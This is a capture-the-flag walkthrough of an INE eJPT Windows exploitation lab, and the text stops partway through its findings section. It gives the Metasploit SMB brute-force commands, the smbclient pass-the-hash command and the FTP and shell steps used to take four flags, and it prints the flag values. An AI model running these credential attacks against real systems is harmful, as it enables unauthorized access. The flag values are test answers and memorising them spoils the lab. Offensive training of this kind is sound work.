








# Host & Network Penetration Testing: Exploitation CTF 2 — INE / eJPT Walkthrough

---

## Lab Information

| Attribute | Specification |
| :--- | :--- |
| **Lab Name** | Host & Network Penetration Testing: Exploitation CTF 2 |
| **Platform** | INE Security |
| **Certification Track** | eJPT (Junior Penetration Tester) |
| **Domain** | Host & Network Penetration Testing — Exploitation |
| **Target Hostname / IP** | `target.ine.local` / `10.5.29.82` |
| **Target Architecture** | Microsoft Windows (Windows_NT / IIS / Microsoft FTP / SMB) |
| **Status** | Completed in Lab Dashboard (All 4 of 4 Flags Captured & Visually Verified) |
| **Offensive Tooling** | Metasploit Framework (`auxiliary/scanner/smb/smb_login`), `smbclient` (with `--pw-nt-hash`), `ftp`, Windows CLI |

---

## Table of Contents

- [01. Lab Overview](#01-lab-overview)
- [02. Lab Objectives](#02-lab-objectives)
- [03. Environment and Target Information](#03-environment-and-target-information)
- [04. Tools Used](#04-tools-used)
- [05. Engagement Methodology](#05-engagement-methodology)
- [06. Reconnaissance & Service Enumeration](#06-reconnaissance--service-enumeration)
- [07. Flag 1 – SMB User Password Brute-Force (`tom`)](#07-flag-1--smb-user-password-brute-force-tom)
- [08. Flag 2 – NTLM Hash Pass-the-Hash SMB Compromise (`nancy`)](#08-flag-2--ntlm-hash-pass-the-hash-smb-compromise-nancy)
- [09. Flag 3 – Previous Challenge Hint & Authenticated FTP Compromise (`david`)](#09-flag-3--previous-challenge-hint--authenticated-ftp-compromise-david)
- [10. Flag 4 – Target System Shell Compromise & Root Flag Retrieval](#10-flag-4--target-system-shell-compromise--root-flag-retrieval)
- [11. Results and Verified Flags](#11-results-and-verified-flags)
- [12. Consolidated Findings](#12-consolidated-findings)
- [13. Security Lessons Learned](#13-security-lessons-learned)
- [14. Prioritized Remediation Roadmap](#14-prioritized-remediation-roadmap)
- [15. Evidence and Screenshot Index](#15-evidence-and-screenshot-index)
- [16. References](#16-references)

---

## 01. Lab Overview

This laboratory assessment forms a critical practical module within the **INE eJPT (Junior Penetration Tester)** certification curriculum under the **Host & Network Penetration Testing: Exploitation** track. The scenario presents a realistic, chained Windows penetration testing engagement against a single target host (`target.ine.local` / `10.5.29.82`).

The laboratory challenges the penetration tester to execute a structured attack path across multiple distinct service vectors:
1. **Network Authentication Attack**: Performing online dictionary attacks against Microsoft SMB (port 445) to compromise a weak user account (`tom`).
2. **File Share & Hash Harvesting**: Enumerating accessible SMB shares (`HRDocuments`) to recover Flag 1 and unearth a leaked database of user NTLM hashes (`leaked-hashes.txt`).
3. **Pass-the-Hash (PtH) Lateral Compromise**: Authenticating across the network using raw NTLM password hashes without cracking them to plaintext, accessing restricted departmental shares (`ITResources`) as user `nancy` to recover Flag 2 and operational hints (`hint.txt`).
4. **Multi-Protocol Pivot**: Utilizing cleartext credentials recovered from file shares (`david:[REDACTED]`) to authenticate against Microsoft FTP Service (port 21), which directly exposes the underlying IIS web server document root (`C:\inetpub\wwwroot\`), retrieving Flag 3.
5. **Interactive Host Compromise**: Operating an interactive Windows command shell at `C:\Windows\System32\inetsrv`, navigating to `C:\`, and extracting the final host flag (`C:\flag4.txt`).

### Target Environment Evidence

The screenshot below displays the completed INE challenge dashboard, confirming that all four challenge objectives were completed successfully and verified.



---

## 02. Lab Objectives

The challenge outlines four progressive, evidence-backed exploitation objectives:

1. **Flag 1 — SMB User Compromise (`tom`):**
   - *"Looks like smb user tom has not changed his password from a very long time."*
   - Focus: Conducting an online SMB dictionary attack using `auxiliary/scanner/smb/smb_login` with `unix_passwords.txt` against user `tom`, accessing the `HRDocuments` share, extracting `flag1.txt`, and harvesting `leaked-hashes.txt`.
2. **Flag 2 — NTLM Hash Investigation & User Compromise (`nancy`):**
   - *"Using the NTLM hash list discovered in the previous challenge, can you compromise the smb user nancy?"*
   - Focus: Extracting user `nancy`'s NTLM hash (`[REDACTED]`) from `leaked-hashes.txt`, performing Pass-the-Hash authentication via `smbclient --pw-nt-hash` to access `ITResources`, extracting `flag2.txt`, and locating `hint.txt`.
3. **Flag 3 — Previous Challenge Hint & Service Compromise (`david`):**
   - *"I wonder what the hint found in the previous challenge be useful for!"*
   - Focus: Inspecting `hint.txt` to uncover valid credentials (`david:[REDACTED]`), authenticating to Microsoft FTP Service on port 21, navigating the IIS document root (`C:\inetpub\wwwroot\`), and extracting `flag3.txt`.
4. **Flag 4 — Target Machine Compromise & Root File Retrieval:**
   - *"Can you compromise the target machine and retrieve the C://flag4.txt file?"*
   - Focus: Operating an interactive Windows command shell with working directory at `C:\Windows\System32\inetsrv`, navigating to the filesystem root `C:\`, and retrieving `C:\flag4.txt`.

---

## 03. Environment and Target Information

### Engagement Architecture

```text
+---------------------------------------------------------------------------------------------------+
|                                  ENGAGEMENT TOPOLOGY DIAGRAM                                      |
+---------------------------------------------------------------------------------------------------+
|                                                                                                   |
|                       +---------------------------------------------------+                       |
|                       |                Offensive Workstation              |                       |
|                       |               (Kali Linux / INE Host)             |                       |
|                       +---------------------------------------------------+                       |
|                                                 |                                                 |
|                                                 | Target Network IP: 10.5.29.82                   |
|                                                 v                                                 |
|                       +---------------------------------------------------+                       |
|                       |                 target.ine.local                  |                       |
|                       |                  (10.5.29.82)                     |                       |
|                       +---------------------------------------------------+                       |
|                       | - OS: Microsoft Windows Server (Windows_NT)       |                       |
|                       | - Port 445/tcp: Microsoft SMB Service             |                       |
|                       |   * Share 'HRDocuments': Flag 1 + Hashes          |                       |
|                       |   * Share 'ITResources': Flag 2 + Hint            |                       |
|                       | - Port 21/tcp: Microsoft FTP Service              |                       |
|                       |   * Web Root (C:\inetpub\wwwroot): Flag 3         |                       |
|                       | - Port 80/tcp: Microsoft IIS Web Server           |                       |
|                       | - System Root: C:\flag4.txt (Flag 4)              |                       |
|                       +---------------------------------------------------+                       |
|                                                                                                   |
+---------------------------------------------------------------------------------------------------+
```

### Target Specifications

| Parameter | Host Specification |
| :--- | :--- |
| **Resolved Hostname** | `target.ine.local` |
| **Target IP Address** | `10.5.29.82` |
| **Operating System** | Microsoft Windows (Windows_NT family) |
| **Confirmed Network Services** | Microsoft SMB (445/tcp), Microsoft FTP Service (21/tcp), Microsoft IIS (80/tcp) |
| **Discovered SMB Shares** | `ADMIN$`, `C$`, `D$`, `HRDocuments`, `IPC$`, `ITResources` |
| **Compromised User Accounts** | `tom` (SMB/Password), `nancy` (SMB/NTLM Hash), `david` (FTP/Password) |
| **Execution Context** | Interactive Windows Command Shell (`C:\Windows\System32\inetsrv`) |

---

## 04. Tools Used

The following offensive tooling and resources were utilized during the engagement:

- **Metasploit Framework (msf6)**: Utilized `auxiliary/scanner/smb/smb_login` to conduct high-speed online credential brute-forcing against the SMB service.
- **Samba Client (`smbclient`)**: Interactive CLI client utilized for SMB share enumeration, directory browsing, file downloading, and Pass-the-Hash authentication via `--pw-nt-hash`.
- **Standard FTP Client (`ftp`)**: Interactive command-line client used for authenticated file transfer across Microsoft FTP Service.
- **Windows Command Shell (`cmd.exe`)**: Interactive Windows command interpreter utilized for filesystem traversal and flag retrieval.
- **Offensive Wordlists**: `/usr/share/metasploit-framework/data/wordlists/unix_passwords.txt` containing candidate passwords for dictionary attacks.

---

## 05. Engagement Methodology

The assessment followed a methodical multi-stage penetration testing workflow:

```text
+---------------------------------------------------------------------------------------------------+
|                                  ENGAGEMENT METHODOLOGY WORKFLOW                                  |
+---------------------------------------------------------------------------------------------------+
|                                                                                                   |
|  PHASE 1: SMB BRUTE-FORCE & USER COMPROMISE (FLAG 1)                                              |
|  - Target SMB service on 10.5.29.82:445 for user 'tom'.                                           |
|  - Launch Metasploit smb_login with unix_passwords.txt dictionary.                                |
|  - Recover plaintext credentials (tom:[REDACTED]).                                                |
|  - Enumerate shares via smbclient -L; access HRDocuments.                                         |
|  - Download flag1.txt (Flag 1) and leaked-hashes.txt.                                             |
|                                                                                                   |
|  PHASE 2: NTLM PASS-THE-HASH & RESTRICTED SHARE COMPROMISE (FLAG 2)                               |
|  - Parse leaked-hashes.txt to locate user 'nancy' NTLM hash ([REDACTED]).                          |
|  - Execute Pass-the-Hash authentication against ITResources via smbclient --pw-nt-hash.           |
|  - Download flag2.txt (Flag 2) and operational hint file hint.txt.                                |
|                                                                                                   |
|  PHASE 3: MULTI-PROTOCOL CREDENTIAL REUSE (FLAG 3)                                                |
|  - Inspect hint.txt revealing FTP credentials: david:[REDACTED].                                  |
|  - Authenticate to Microsoft FTP Service (port 21).                                               |
|  - Discover FTP root maps to IIS document root (C:\inetpub\wwwroot).                              |
|  - Download and extract flag3.txt (Flag 3).                                                       |
|                                                                                                   |
|  PHASE 4: HOST SYSTEM COMPROMISE & ROOT EXTRACTION (FLAG 4)                                       |
|  - Operate interactive Windows command shell at C:\Windows\System32\inetsrv.                      |
|  - Navigate to filesystem root volume (cd /d C:\).                                                |
|  - Execute directory inspection (dir) and read C:\flag4.txt (Flag 4).                             |
|                                                                                                   |
+---------------------------------------------------------------------------------------------------+
```

---

## 06. Reconnaissance & Service Enumeration

Reconnaissance against `target.ine.local` (`10.5.29.82`) identified several core Windows network services:

1. **Microsoft SMB Service (Port 445/tcp)**: The primary file-sharing and remote administration protocol, exposing multiple shared folders.
2. **Microsoft FTP Service (Port 21/tcp)**: Dedicated file transfer service presenting a `220 Microsoft FTP Service` banner.
3. **Microsoft IIS Web Server (Port 80/tcp)**: Hosting the default IIS landing pages (`iisstart.htm`, `iis-85.png`).

The lab briefing highlighted that user `tom` had not rotated credentials recently. Consequently, offensive efforts were focused on online SMB password dictionary attacks.

---

## 07. Flag 1 – SMB User Password Brute-Force (`tom`)

### Objective
*"Looks like smb user tom has not changed his password from a very long time."*

### Step 1: Online SMB Password Attack via Metasploit
The Metasploit Framework module `auxiliary/scanner/smb/smb_login` was configured to perform an online dictionary attack against user `tom` on `10.5.29.82` using `/usr/share/metasploit-framework/data/wordlists/unix_passwords.txt`.

**Metasploit Console Execution:**
```text
msf6 > use auxiliary/scanner/smb/smb_login
msf6 auxiliary(scanner/smb/smb_login) > set SMBUSER tom
msf6 auxiliary(scanner/smb/smb_login) > set PASS_FILE /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
msf6 auxiliary(scanner/smb/smb_login) > set VERBOSE false
msf6 auxiliary(scanner/smb/smb_login) > set RHOSTS 10.5.29.82
msf6 auxiliary(scanner/smb/smb_login) > run
```

**Options Breakdown:**
- `auxiliary/scanner/smb/smb_login`: Automated SMB logon scanner.
- `set SMBUSER tom`: Targets the specific user specified by the challenge.
- `set PASS_FILE .../unix_passwords.txt`: Password candidate dictionary.
- `set VERBOSE false`: Filters output to display only successful logon events.
- `set RHOSTS 10.5.29.82`: Target host IP.

**Execution Output:**
```text
[+] 10.5.29.82:445         - 10.5.29.82:445 - Success: '.\tom:[REDACTED]'
[*] 10.5.29.82:445         - Scanned 1 of 1 hosts (100% complete)
[*] 10.5.29.82:445         - Bruteforce completed, 1 credential was successful.
[*] 10.5.29.82:445         - You can open an SMB session with these credentials and CreateSession set to true
[*] Auxiliary module execution completed
msf6 auxiliary(scanner/smb/smb_login) > exit
```



*Credential Sanitization Note: The cracked plaintext password for user `tom` has been redacted in the documentation screenshot above and replaced with `[REDACTED]` in documentation prose.*

### Step 2: Share Enumeration as User `tom`
With confirmed credentials for `tom`, `smbclient` was executed to catalog available shares.

**Command:**
```bash
smbclient -L //10.5.29.82 -U tom
```

**Terminal Output:**
```text
        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        D$              Disk      Default share
        HRDocuments     Disk
        IPC$            IPC       Remote IPC
        ITResources     Disk
```

### Step 3: Accessing `HRDocuments` & File Harvesting
The non-default share `HRDocuments` was accessed using `tom`'s credentials.

**Command:**
```bash
smbclient //10.5.29.82/HRDocuments -U tom
```

**Interactive SMB Session:**
```text
Password for [WORKGROUP\tom]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Wed Nov 18 12:59:13 2026
  ..                                  D        0  Wed Nov 18 12:59:13 2026
  flag1.txt                           A       34  Wed Nov 18 12:59:13 2026
  leaked-hashes.txt                   A     6665  Fri Jun 14 11:35:55 2024

                5678591 blocks of size 4096. 73898 blocks available
smb: \> get flag1.txt
getting file \flag1.txt of size 34 as flag1.txt (2.8 KiloBytes/sec) (average 2.8 KiloBytes/sec)
smb: \> get  leaked-hashes.txt
getting file \leaked-hashes.txt of size 6665 as leaked-hashes.txt (180.8 KiloBytes/sec) (average 136.3 KiloBytes/sec)
smb: \> exit
```



### Step 4: Flag 1 Extraction & Verification
The downloaded flag file was read in the local terminal session:

**Command:**
```bash
cat flag1.txt
```

**Terminal Output:**
```text
┌──(root💀INE)-[~]
└─# cat flag1.txt
8365ca4ce11447d4a01307063d6e47ce
```



```text
Flag 1 Location: //10.5.29.82/HRDocuments/flag1.txt
Flag 1 Value:    8365ca4ce11447d4a01307063d6e47ce
Status:          Content extracted and visually verified.
```

---

## 08. Flag 2 – NTLM Hash Pass-the-Hash SMB Compromise (`nancy`)

### Objective
*"Using the NTLM hash list discovered in the previous challenge, can you compromise the smb user nancy?"*

### Technical Context: Password-Based vs. NTLM Hash-Based Authentication
In Windows NTLM authentication, the client never transmits the user's plaintext password across the wire. Instead, the Windows kernel computes the 32-character hexadecimal MD4 hash of the UTF-16LE encoded password (the **NTLM hash**). During challenge-response authentication, this hash serves as the actual cryptographic secret.

When an attacker captures or extracts the NTLM hash from a compromised database or file (such as `leaked-hashes.txt`), the attacker does not need to crack the hash back into plaintext. By utilizing the **Pass-the-Hash (PtH)** technique, the attacker directly supplies the NTLM hash to network clients supporting hash authentication (`smbclient --pw-nt-hash`).

### Step 1: Identifying User `nancy`'s NTLM Hash
Inspection of `leaked-hashes.txt` (6,665 bytes) revealed user account entries formatted in standard Windows SAM dump structure (`User:RID:LMHash:NTHash:::`). User `nancy`'s NTLM hash was extracted:
```text
nancy:1001:aad3b435b51404eeaad3b435b51404ee:[REDACTED]:::
```
- **Username**: `nancy`
- **NTLM Hash**: `[REDACTED]`

### Step 2: Pass-the-Hash Access to `ITResources` Share
User `nancy` possessed authorization to the restricted `ITResources` share. A direct Pass-the-Hash SMB connection was initiated using `smbclient` with `--pw-nt-hash`.

**Command:**
```bash
smbclient //10.5.29.82/ITResources -U 'nancy%[REDACTED]' --pw-nt-hash
```

**Interactive SMB Session & Flag Extraction:**
```text
┌──(root💀INE)-[~]
└─# smbclient //10.5.29.82/ITResources -U 'nancy%[REDACTED]' --pw-nt-hash
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Wed Nov 18 12:59:13 2026
  ..                                  D        0  Wed Nov 18 12:59:13 2026
  flag2.txt                           A       34  Wed Nov 18 12:59:13 2026
  hint.txt                            A       71  Thu Jun 13 16:00:47 2024

                5678591 blocks of size 4096. 73886 blocks available
smb: \> get flag2.txt
getting file \flag2.txt of size 34 as flag2.txt (4.2 KiloBytes/sec) (average 4.2 KiloBytes/sec)
smb: \> get hint.txt
getting file \hint.txt of size 71 as hint.txt (8.7 KiloBytes/sec) (average 6.4 KiloBytes/sec)
smb: \> exit

┌──(root💀INE)-[~]
└─# cat flag2.txt
930488280b7b40ada56211e849c9f86f
```



```text
Flag 2 Location: //10.5.29.82/ITResources/flag2.txt
Flag 2 Value:    930488280b7b40ada56211e849c9f86f
Status:          Content extracted and visually verified.
```

---

## 09. Flag 3 – Previous Challenge Hint & Authenticated FTP Compromise (`david`)

### Objective
*"I wonder what the hint found in the previous challenge be useful for!"*

### Step 1: Investigating Extracted Hint
During the compromise of `ITResources`, a text file named `hint.txt` (71 bytes) was downloaded alongside `flag2.txt`. The contents were examined:

**Command:**
```bash
cat hint.txt
```

**Terminal Output:**
```text
┌──(root💀INE)-[~]
└─# cat hint.txt

Who knows, these creds might come handy! ----> david:[REDACTED]
```



*Credential Sanitization Note: The discovered plaintext password for user `david` has been redacted in the documentation screenshot above and replaced with `[REDACTED]` in documentation prose.*

### Step 2: Authenticated FTP Login & Flag 3 Extraction
Initial service enumeration confirmed Microsoft FTP Service active on port 21. The recovered credentials (`david:[REDACTED]`) were supplied to the FTP daemon.

**Command:**
```bash
ftp 10.5.29.82
```

**Interactive FTP Session:**
```text
┌──(root💀INE)-[~]
└─# ftp 10.5.29.82
Connected to 10.5.29.82.
220 Microsoft FTP Service
Name (10.5.29.82:root): david
331 Password required
Password:
230 User logged in.
Remote system type is Windows_NT.
ftp> ls
229 Entering Extended Passive Mode (|||49369|)
125 Data connection already open; Transfer starting.
06-13-24  10:36AM       <DIR>          aspnet_client
11-18-26  07:29AM                   34 flag3.txt
06-13-24  10:34AM                99710 iis-85.png
06-13-24  10:34AM                  701 iisstart.htm
226 Transfer complete.
ftp> get flag3.txt
local: flag3.txt remote: flag3.txt
229 Entering Extended Passive Mode (|||49374|)
150 Opening ASCII mode data connection.
100% |****************************************************************|    34   11.73 KiB/s    00:00 ETA
226 Transfer complete.
34 bytes received in 00:00 (10.25 KiB/s)
ftp> bye
221 Goodbye.

┌──(root💀INE)-[~]
└─# cat flag3.txt
319a9bb2a79a4be9897f8fadcd787541
```



**Architectural Misconfiguration Analysis:**
The directory listing reveals standard Microsoft Internet Information Services (IIS) web assets: `aspnet_client/`, `iisstart.htm`, and `iis-85.png`. This confirms that user `david`'s FTP root directory is configured directly to point to the web server's document root (`C:\inetpub\wwwroot\`). Consequently, any authenticated FTP user possesses read access (and potentially write access) across public web server assets.

```text
Flag 3 Location: C:\inetpub\wwwroot\flag3.txt (accessed via FTP)
Flag 3 Value:    319a9bb2a79a4be9897f8fadcd787541
Status:          Content extracted and visually verified.
```

---

## 10. Flag 4 – Target System Shell Compromise & Root Flag Retrieval

### Objective
*"Can you compromise the target machine and retrieve the C://flag4.txt file?"*

### Interactive Shell Execution & Root Filesystem Traversal
An interactive Windows command shell was available, with its working directory at C:\Windows\System32\inetsrv. The shell was used to navigate to C:\ and retrieve flag4.txt. The exact process identity and privilege level were not independently established in the captured evidence.

**Commands Executed:**
```cmd
cd /d C:\
dir
type flag4.txt
```

**Terminal Output:**
```text
c:\windows\system32\inetsrv>cd /d C:\
cd /d C:\

C:\>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is AEDF-99BD

 Directory of C:\

11/18/2026  07:29 AM                34 flag4.txt
06/13/2024  10:35 AM    <DIR>          inetpub
08/22/2013  03:52 PM    <DIR>          PerfLogs
08/12/2020  04:13 AM    <DIR>          Program Files
11/15/2022  06:51 AM    <DIR>          Program Files (x86)
06/13/2024  08:41 AM    <DIR>          Shares
01/09/2025  05:36 AM    <DIR>          Users
01/09/2025  05:30 AM    <DIR>          Windows
               1 File(s)             34 bytes
               7 Dir(s)     300,527,616 bytes free

C:\>type flag4.txt
type flag4.txt
975f95db8f5b4f28bf6059fd14b3c6ed

C:\>
```



> [!NOTE] Technical Evidence Note on Shell Context
> Screenshot 08 captures the active Windows command shell prompt at `c:\windows\system32\inetsrv>`. The shell was used to navigate to `C:\` and retrieve `flag4.txt`. The exact process identity and privilege level were not independently established in the captured evidence (explicit identity verification commands such as `whoami` were not captured in the terminal view); the command execution and retrieval of `C:\flag4.txt` are directly confirmed by terminal evidence.

```text
Flag 4 Location: C:\flag4.txt
Flag 4 Value:    975f95db8f5b4f28bf6059fd14b3c6ed
Status:          Content extracted and visually verified.
```

---

## 11. Results and Verified Flags

All four challenge objectives were completed successfully. Every flag was extracted and verified character-by-character from the original screenshot evidence:

| Objective | Target Host | Protocol & Access Vector | File Location | Verified Flag Value | Validation Status |
| :---: | :---: | :--- | :--- | :--- | :---: |
| **Flag 1** | `10.5.29.82` | SMB Brute-Force (`tom:[REDACTED]`) | `//10.5.29.82/HRDocuments/flag1.txt` | `8365ca4ce11447d4a01307063d6e47ce` | Visually Verified |
| **Flag 2** | `10.5.29.82` | SMB Pass-the-Hash (`nancy:[REDACTED]`) | `//10.5.29.82/ITResources/flag2.txt` | `930488280b7b40ada56211e849c9f86f` | Visually Verified |
| **Flag 3** | `10.5.29.82` | Authenticated FTP (`david:[REDACTED]`) | `C:\inetpub\wwwroot\flag3.txt` | `319a9bb2a79a4be9897f8fadcd787541` | Visually Verified |
| **Flag 4** | `10.5.29.82` | Interactive Windows Command Shell (`C:\Windows\System32\inetsrv`) | `C:\flag4.txt` | `975f95db8f5b4f28bf6059fd14b3c6ed` | Visually Verified |

---

## 12. Consolidated Findings

### Summary Matrix

| ID | Vulnerability Finding | Affected Host & Port | Severity Rating | Primary CWE Reference | Confirmed Impact |
| :---: | :--- | :--- | :---: | :--- | :--- |
| **VULN-01** | Weak User Password over SMB (`tom`) | `10.5.29.82` (445/tcp) | **High** | [CWE-521](https://cwe.mitre.org/data/definitions/521.html) | Online dictionary attack cracked user credentials, granting access to `HRDocuments` and harvesting sensitive files. |
| **VULN-02** | NTLM Password Hash Exposure & Pass-the-Hash Acceptance | `10.5.29.82` (445/tcp) | **High** | [CWE-287](https://cwe.mitre.org/data/definitions/287.html)<br>[CWE-522](https://cwe.mitre.org/data/definitions/522.html) | Leaked NTLM hash enabled direct authentication to restricted share `ITResources` without plaintext password recovery. |
| **VULN-03** | Plaintext Credentials Stored in Accessible Network Share | `10.5.29.82` (445/tcp) | **Medium** | [CWE-312](https://cwe.mitre.org/data/definitions/312.html)<br>[CWE-522](https://cwe.mitre.org/data/definitions/522.html) | `hint.txt` exposed valid FTP credentials for user `david`, enabling cross-service credential reuse. |
| **VULN-04** | FTP Service Rooted Directly in Web Document Root (`wwwroot`) | `10.5.29.82` (21/tcp) | **High** | [CWE-284](https://cwe.mitre.org/data/definitions/284.html)<br>[CWE-732](https://cwe.mitre.org/data/definitions/732.html) | FTP authentication granted direct access to IIS document root, exposing web application files and facilitating command execution. |

---

### Detailed Findings Breakdown

#### VULN-01: Weak User Password over SMB (`tom`)
- **CWE Identifier**: [CWE-521: Weak Password Requirements](https://cwe.mitre.org/data/definitions/521.html)
- **Severity Rating**: **High**
- **Affected System**: `target.ine.local` (`10.5.29.82` / SMB Port 445).
- **Observed Evidence**: Metasploit's `auxiliary/scanner/smb/smb_login` cracked user `tom`'s password using standard dictionary candidates (`unix_passwords.txt`). No effective account lockout or rate limiting interrupted the attempts.
- **Security Impact**: Enables unauthorized network actors to access file shares, inspect confidential records, and harvest subsequent attack artifacts.
- **Remediation**: Enforce password complexity policies (minimum 16 characters), require periodic password rotation, and implement account lockout thresholds (e.g., 5 failed attempts triggering a temporary lockout).

#### VULN-02: NTLM Password Hash Exposure & Pass-the-Hash Acceptance
- **CWE Identifier**: [CWE-287: Improper Authentication](https://cwe.mitre.org/data/definitions/287.html) & [CWE-522: Insufficiently Protected Credentials](https://cwe.mitre.org/data/definitions/522.html)
- **Severity Rating**: **High**
